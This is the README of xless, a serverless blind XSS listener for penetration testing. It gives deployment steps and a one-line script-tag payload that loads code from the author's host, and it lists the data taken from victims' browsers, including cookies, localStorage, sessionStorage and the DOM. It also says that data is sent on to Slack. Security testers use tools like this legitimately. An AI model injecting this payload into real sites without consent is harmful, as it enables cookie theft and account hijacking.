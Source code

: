 XLESS
======

# The Serverless Blind XSS App

## About The Project
xless is a serverless blind XSS app that can be used to identify blind XSS vulnerabilities using your own deployed version of the app. There is no need to run a full deployment process; just setup a zeit.co account and run `bash deploy.sh`. That's it. You have a fully-running Blind XSS listener that uses Slack to notify you for blind XSS callbacks.


## Requirements

* zeit.co account: Zeit provides free plan for serverless. If you use another provider for serverless, code changes should be minimal.
* Slack Incoming Webhook URL.


## Deployment

1. Run:

```bash
$ bash deploy.sh

> Deploying ~/xless under X
> https://xless.now.sh [v2] [in clipboard] [4s]
> Success! Deployment ready [4s]
```
2. Use the URL for blind XSS testing :fire:

**Xless will automatically serve the XSS payload, collect information, and exfiltrate it into your serverless app, which is then sent right to you in Slack.**


## Example Payload

```javascript
<script src="https://xless.now.sh"></script>
```


## Demo
![Demo](https://raw.githubusercontent.com/mazen160/public/master/static/images/xless-screenshot.png)


# Collected Data

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address


## Contribution
Contribution is very welcome. Please share your ideas by Github issues and pull requests.

Here are some ideas to start with:
1. Enabling sharing of page screenshot - Check `test.payload.js`.
2. A nice logo design!
3. _Your idea of a new feature_?


## Acknowledgement

* Matthew Bryant (https://github.com/mandatoryprogrammer) for the XSS Hunter project.
* Zeit.co: for operating a great serverless platform.


## Legal Disclaimer
This project is made for educational and ethical testing purposes only. Usage of xless for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## License
The project is currently licensed under MIT License.

## Author
*Mazin Ahmed*
* Website: [https://mazinahmed.net](https://mazinahmed.net)
* Email: *mazin AT mazinahmed DOT net*
* Twitter: [https://twitter.com/mazen160](https://twitter.com/mazen160)
* Linkedin: [http://linkedin.com/in/infosecmazinahmed](http://linkedin.com/in/infosecmazinahmed)
